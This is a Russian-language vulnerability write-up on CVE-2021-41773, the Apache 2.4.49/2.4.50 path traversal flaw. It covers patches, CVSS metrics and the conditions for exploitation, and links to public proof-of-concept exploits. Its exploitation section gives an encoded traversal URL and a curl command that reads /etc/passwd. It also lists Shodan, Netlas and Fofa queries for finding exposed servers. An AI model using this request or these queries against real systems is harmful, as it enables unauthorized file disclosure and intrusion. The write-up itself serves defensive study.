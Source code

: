 # **CVE-2021-41773**

---

## **Описание**

Возникает в сервере Apache версии **2.4.49** и **2.4.50**. Причиной появления уязвимости является изменение, внесенное в нормализацию пути. Уязвимость позволяет:

- **Прочитать файлы на сервере.**
- В случае неправильной конфигурации — **выполнять удаленное выполнение кода** на сервере.

Уязвимость возникает из-за ошибки в обработке URL-запросов с использованием специальной последовательности (`../`). Эта ошибка позволяет **обойти ограничения**, наложенные на доступ к файловой системе. Если сервер настроен для использования файлов `.htaccess`, уязвимость позволяет получать доступ к файлам **за пределами корневого каталога веб-сервера**.

---

## **Патчи**

- Уязвимость была **криво исправлена** в обновлении **2.4.50** (выпущено **04/10/2021**), из-за чего она также затронула эту версию.
- Полностью устранена в версии **2.4.51** (выпущено **07/10/2021**).

---

## **Метрики**

- **Вектор:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`
- **Рейтинг:** **7.5** (Высокий)
- **Уязвимые версии:**
  - `cpe:2.3:a:apache:http_server:2.4.49`
  - `cpe:2.3:a:apache:http_server:2.4.50`
- Версии **до 2.4.49** и **после 2.4.50** — не затронуты.

---

## **Эксплуатация**

### **Условия для успешной эксплуатации**

1. Сервер использует Apache HTTP Server версии **2.4.49** или **2.4.50**.
2. Конфигурация сервера включает директиву: 
    ```apache
    <Directory "/path/to/webroot">
        Require all granted
    </Directory>
    ```
3. Сервер позволяет доступ к CGI-скриптам (например, `/cgi-bin/`).

### **Возможности**

- **Чтение файлов**, находящихся на внутреннем сервере (например, `/etc/passwd`).
- **Удаленное выполнение кода**, если можно загрузить вредоносный файл на сервер.

### **Процесс эксплуатации**

1. Использование URL с кодированием для обхода защиты:

http://ip:port/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

2. С помощью инструмента `curl`:

curl -s --path-as-is "http://iptarget:80/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

3. Если сервер уязвим, возвращается содержимое файла `/etc/passwd`.

---

## **Материалы**

- [CVE-2021-41773 (cve.mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
- [NVD CVE-2021-41773 (nist.gov)](https://nvd.nist.gov/vuln/detail/cve-2021-41773)
- [Qualys Blog Post](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013)
- [Apache HTTP Server Vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)

---

## **Публичные эксплойты**

- [lorddemon PoC](https://github.com/lorddemon/CVE-2021-41773-PoC/blob/main/CVE-2021-41773.py)
- [walnutsecurity PoC](https://github.com/walnutsecurity/cve-2021-41773/blob/main/cve-2021-41773.py)
- [iilegacyyii PoC](https://github.com/iilegacyyii/PoC-CVE-2021-41773/blob/main/CVE-2021-41773.py)

## Распространенность

| Платформа | Запрос                                                      | Количество по миру | Количество по РФ |
|-----------|-------------------------------------------------------------|---------------------|------------------|
| Shodan    | `Apache/2.4.49 OR Apache/2.4.50`                            | 2,449               | 81               |
| Netlas    | `(http.headers.server: "Apache/2.4.49" OR http.headers.server: "Apache/2.4.50")` | 6,309               | 140              |
| Fofa      | `header="Apache/2.4.49" \|\| header="Apache/2.4.50"`        | 12,447              | 540              |
